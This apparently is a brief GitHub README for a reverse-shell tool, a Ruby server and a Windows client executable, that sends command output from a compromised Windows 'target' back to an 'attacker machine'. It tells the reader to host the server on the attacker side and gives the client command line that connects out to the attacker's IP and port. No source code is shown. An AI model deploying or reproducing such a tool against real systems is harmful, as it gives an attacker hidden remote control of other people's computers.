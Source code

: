 # Reverse Shell With Getting Output From Windows

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.



## Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
